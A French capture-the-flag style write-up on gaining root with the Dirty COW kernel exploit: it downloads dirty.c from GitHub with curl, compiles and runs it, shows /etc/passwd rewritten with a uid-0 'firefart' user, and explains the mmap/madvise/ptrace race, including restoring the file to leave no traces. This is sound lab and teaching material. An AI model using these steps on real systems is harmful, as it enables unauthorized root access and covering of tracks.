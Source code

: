 # WRITEUP2

## Pré-requis

Avant de commencer cet _exploit_, vérifiez que ces pré-requis sont
présents :
-   Une machine virtuelle : au choix VMware ou VirtualBox. Nous avons
    préféré VMware.
-   nmap : faites brew install nmap, l’installation prend une dizaine de
    minutes.
-   python 3.x.
-   Reprendre les étapes du `writeup1` jusqu'à la connexion en ssh avec : _laurie_.

## Le script

Les étapes suivantes sont reprises dans le script2.sh.

Nous téléchargons un script via _curl_ avec l'option _-O_ permettant de rediriger vers un fichier.
Ensuite nous compilons et lançons ce script avec un argument afin de choisir un nouveau mot de passe.

    $> curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload   Upload  Total   Spent    Left  Speed
    100  4815  100  4815    0     0  23803      0 --:--:-- --:--:-- --:--:-- 31266
    $> gcc -pthread dirty.c -o dirty -lcrypt
    $> ./dirty "petdefeu"
    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password: petdefeu
    Complete line:
    firefart:trzgUrWEhLNPY:0:0:pwned:/root:/bin/bash

    mmap: b7fda000
    madvise 0

    ptrace 0
    Done! Check /etc/passwd to see if the new user was created.
    You can log in with the username 'firefart' and the password 'petdefeu'.


    DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
    Done! Check /etc/passwd to see if the new user was created.
    You can log in with the username 'firefart' and the password 'petdefeu'.


    DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

# Explications

Ce script utilise _l'exploit pokemon_ de la faille _dirtycow_ effective sur le kernel Unix [date]. Il remplace l'utilisateur `root` par un utilisateur custom.
L'user est invité à rentrer un nouveau mot de passe lors de l'éxecution du binaire ou à le passer en paramètre au moment de l'éxecution.
Le fichier `/etc/passwd` original est sauvegardé dans `/tmp/passswd.bak`; pour ne pas laisser de traces après le passage vous êtes invités à le remettre en place.

Si un fichier `/tmp/passswd.bak` existe déjà, le programme retourne un message d'erreur et s'arrête.
Une structure est initialisée (`username`, `user_id`, `info`, ...).
- Si il y a un second argument alors il est mis en mot de passe.
- Sinon, l'utilisateur est invité à taper son mot de passe.

Le mot de passe est crypté avec la fonction :
```char *crypt(const char *key, const char *salt);```
de la librairie `#include <crypt.h>`

Une chaine de caractères est alors créée contenant la structure complète.
Mmap est utilisé sur `/etc/passwd` avec le file descriptor (ce qui nous permettra ensuite d'écrire en mémoire ET sur le fichier).
La fonction `pid_t  fork(void);` est utilisé afin de créer un nouveau processus.

### Processus parent :

- Nous utilisons `pid_t  waitpid(pid_t pid, int *status, int options);` afin d'attendre le changement d'état du processus fils. `waitpid` suspend l'exécution du processus appelant jusqu'à ce que le fils spécifié par son pid ait changé d'état.
- `long ptrace(enum __ptrace_request requête, pid_t pid, void *addr, void *data);` est utilisé, cette fonction fournit au processus parent un moyen de contrôler l'éxécution d'un autre processus et d'éditer son image mémoire. Avec `PTRACE_POKETEXT` permettant d'écrire le password dans le fichier mappé.


### Processus enfant :

- `pthread_create` crée un nouveau thread qui exécute `madviseThread()` => manager le fonctionnement du système sur l'allocation; `MADV_DONTNEED` ne prévoit pas d'accès futur et donc le système ne vérifie pas les droits lors de l'écriture.
- Utilisation de `ptrace` avec `PTRACE_TRACEME`, utile pour le processus parent
- `kill` processus enfant
- `pthread_join` suspends le processus enfant

Le script script2.sh termine en se connectant en `firefart` donc le nouveau _super-user_

    $> su firefart
    Password:
    
On peut verifier que nous avons tous les droits en tapant la commande `id`:

    $> id
    uid=0(firefart) gid=0(root) groups=0(root)

__Bravo ! Vous êtes root !__
